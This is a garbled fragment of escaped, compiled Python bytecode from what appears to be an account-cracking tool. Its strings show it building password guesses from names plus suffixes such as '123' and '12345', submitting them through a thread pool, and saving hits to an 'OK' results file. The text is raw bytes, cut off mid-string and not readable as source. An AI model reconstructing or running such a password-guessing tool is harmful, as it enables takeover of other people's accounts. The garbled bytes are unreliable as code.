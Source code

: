\xda\x06445566\xe9\x06\x00\x00\x00\xe9\x03\x00\x00\x00\xda\x03123\xda\x0512345r\x7f\x00\x00\x00r\x80\x00\x00\x00)\rr2\x00\x00\x00r\t\x00\x00\x00rI\x00\x00\x00\xda\x04tredr\x82\x00\x00\x00\xda\x05split\xda\x05lowerrw\x00\x00\x00rA\x00\x00\x00r\x87\x00\x00\x00\xda\x06submit\xda\x05crackr\x80\x00\x00\x00\xa9\x06\xda\x04pool\xda\x06yuzong\xda\x03idf\xda\x03nmfZ\x03frs\xda\x03pwvr5\x00\x00\x00r5\x00\x00\x00r6\x00\x00\x00r\x8b\x00\x00\x00\xe5\x00\x00\x00s,\x00\x00\x00\x00\x01\x06\x01\x10\x01\x0e\x01\x08\x01"\x01\x0e\x01\x06\x01\x0c\x01\x0c\x01\x02\x02\x0e\x01\x10\x02\x0c\x01\x0c\x02\n\x01\x0e\x01\x0e\x01\x08\x01\x10\x01\n\x01\x10\x02r\x8b\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\n\x00\x00\x00C\x00\x00\x00s\xb4\x01\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01t\x03t\x04f\x02\x16\x00\x83\x01\x01\x00t\x05d\x02d\x03\x8d\x01\x90\x01\x8ft}\x00t\x06D\x00\x90\x01]\\}\x01\x90\x01zH|\x01\xa0\x07d\x04\xa1\x01\\\x02}\x02}\x03|\x03\xa0\x07d\x05\xa1\x01}\x04t\x08|\x04\x83\x01d\x06k\x02s\x82t\x08|\x04\x83\x01d\x07k\x02s\x82t\x08|\x04\x83\x01d\x08k\x02s\x82t\x08|\x04\x83\x01d\tk\x02r\xe0t\t|\x04d\n\x19\x00|\x04d\n\x19\x00\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0c\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\r\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0e\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0f\x17\x00g\x06}\x05n\\t\t|\x04d\n\x19\x00|\x04d\n\x19\x00\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0c\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\r\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0e\x17\x00|\x04d\n\x19\x00|\x04d\x0b\x19\x00\x17\x00d\x0f\x17\x00g\x06}\x05d\x10t\nv\x00\x90\x01rV|\x00\xa0\x0bt\x0c|\x02|\x05\xa1\x03\x01\x00n(d\x11t\nv\x00\x90\x01rp|\x00\xa0\x0bt\r|\x02|\x05\xa1\x03\x01\x00n\x0e|\x00\xa0\x0bt\x0c|\x02|\x05\xa1\x03\x01\x00W\x00q0\x01\x00\x01\x00\x01\x00Y\x00q00\x00q0W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00n\x121\x00\x90\x01s\xa60\x00\x01\x00\x01\x00\x01\x00Y\x00\x01\x00d\x00S\x00)\x12N\xfa\x99\n [\x1a] OK Result Saved To : \x1b[1;92mOK/%s\x1b[1;97m\n [